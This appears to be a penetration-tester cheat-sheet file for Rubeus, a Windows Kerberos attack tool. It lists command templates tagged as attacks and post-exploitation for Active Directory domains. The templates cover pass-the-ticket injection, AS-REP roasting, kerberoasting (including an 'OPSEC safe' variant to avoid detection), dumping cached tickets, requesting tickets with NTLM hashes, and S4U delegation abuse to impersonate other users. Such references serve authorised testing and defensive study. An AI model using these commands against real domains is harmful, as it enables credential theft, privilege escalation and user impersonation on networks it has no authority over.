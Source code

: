 # rubeus

% ad, windows, rubeus

## inject ticket from file
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<ticket>
```

## inject ticket from b64 blob
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>
```

## check ASPREPRoast for all users in current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## ASREPRoast specific user
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /user:<user> /domain:<domain_name> /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## kerberoasting - current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Kerberoasting and outputting on a file with a spesific format
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name>
```

## Kerberoasting while being "OPSEC" safe, essentially while not try to roast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /rc4opsec
```

## Kerberoast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /aes
```
 
## Kerberoast specific user account
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /user:<user> /simple
```

## get hash
#plateform/windows #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
.\Rubeus.exe hash /user:<user> /domain:<domain_name> /password:<password>
```

## dump - will dump any relevant cached TGS ticket’s stored
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe dump
```

## ask and inject ticket
#plateform/windows #target/remote #cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain_name> /rc4:<ntlm_hash> /ptt
```

## S4U - with ticket - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt
```

## S4U - with hash - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain_name> /ptt
```

## get rc4 of machine with the password
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<machine_password>
```

## S4U - Resource based constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain_name> /ptt
```

= ticket : c:\Temp\ticket.kirbi
= domain_fqdn : MYDC.mydomain.local
= domain_name : mydomain.local
= AS_REP_response_format : hashcat
